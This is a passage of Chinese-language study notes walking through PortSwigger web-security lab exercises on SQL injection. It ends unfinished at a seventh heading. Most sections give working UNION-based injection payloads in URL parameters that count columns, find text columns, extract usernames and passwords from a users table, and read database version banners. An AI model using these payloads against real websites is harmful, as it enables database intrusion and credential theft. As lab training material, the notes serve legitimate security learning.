## SQL-Injection

[TOC]

#### [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

#### 1. SQL injection UNION attack, determining the number of columns returned by the query

先用`order by`测出来列数是3。

然后用`union select 1,2,3`啥都出不来。

我的payload是：`/filter?category=' union select 1,2,3--`。

因为啥都不出来，直接报错，我就去看了一下官方给的payload：`/filter?category=' union select null,null,null--`

还能这样？最后一个一个的试才发现，1和2的位置填数字会报错，3的位置可以填。但是填`null`是比较稳妥的方案。

#### 2. SQL injection UNION attack, finding a column containing text

还是先用`order by`测出来列数是3。

经过测试：`/filter?category=' union select 1,'sss',3--`

![2.1](sql-injection-burp.assets/2.1.png)

已经找到包含文本的列：第二列。

但是不给过。

居然要输入他给的字符串：`' union select 1,'VaRkKi',3--`

#### 3. SQL injection UNION attack, retrieving data from other tables

题目要求：

> The database contains a different table called `users`, with columns called `username` and `password`.
>
> To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

用`order by`测出来有两列。

payload:`/filter?category=%27%20union%20select%20username,password%20from%20users--`

#### 4. SQL injection UNION attack, retrieving multiple values in a single column

1. 找出列数。
2. 找出哪一列可以用
3. concat或者用`||`连接。

payload:

1. `/filter?category=' union select null,concat(username,password) from users--`
2. `/filter?category=' union select null,username||'~'||password from users--`

#### 5. SQL injection attack, querying the database type and version on Oracle

> 在Oracle数据库上，每个`SELECT`语句都必须指定要选择的表`FROM`。如果您的`UNION SELECT`攻击没有从表中查询，您仍然需要在`FROM`关键字后面加上有效的表名。Oracle上有一个内置表称为DUAL，您可以将其用于此目的。例如：`UNION SELECT 'abc' FROM DUAL`

已经提示了使用的Oracle数据库。

题目要求：

```
Make the database retrieve the strings: 
'Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production'
```

payload：`/filter?category=' union select null,banner from v$version--`

`banner`在sheet里面去找。

#### 6. SQL injection attack, querying the database type and version on MySQL and Microsoft

这道题不知道是啥问题，一直不行，官方的都不行。后面来做吧。

我觉得payload大概率就是：`' union select null,@@version--`

#### 7. 
